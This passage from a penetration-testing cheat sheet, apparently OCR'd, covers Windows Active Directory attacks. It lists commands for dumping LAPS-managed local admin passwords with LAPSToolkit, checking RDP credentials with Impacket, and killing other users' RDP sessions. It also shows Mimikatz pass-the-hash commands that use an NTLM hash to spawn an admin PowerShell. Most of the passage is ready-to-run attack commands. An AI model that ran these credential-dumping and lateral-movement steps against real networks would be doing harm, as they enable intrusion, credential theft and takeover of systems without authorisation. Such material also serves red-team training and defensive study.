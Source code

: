 ### Resources
- https://github.com/djhohnstein/SharpChrome


#### LAPS

```
# import
ps> Import-Module .\LAPSToolkit.ps1

# search
> Find-LAPSDelegatedGroups

# dump
> Get-LAPSComputers
```

---

## 6. Lateral Movement

### RDP

#### Impacket

```
rdp_check.py 'vault/administrator:Password123!@192.168.83.122'
```

#### Kill User Session

```
# get sessions
qwinsta /server:<server>

# kill session
rwinsta /server:<server> <session number>
```

#### Restricted Admin 

Make a "restrictedadmin" connection

```
# uses current logon session & does not require cleartext creds
mstsc.exe /restrictedadmin
```

Enable/Disable - `HKLM:\System\CurrentControlSet\Control\Lsa`

#### Remotely Enable RDP Restricted Admin 

Launch local instance of powershell in the context of admin via Mimikatz

```
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:powershell
```
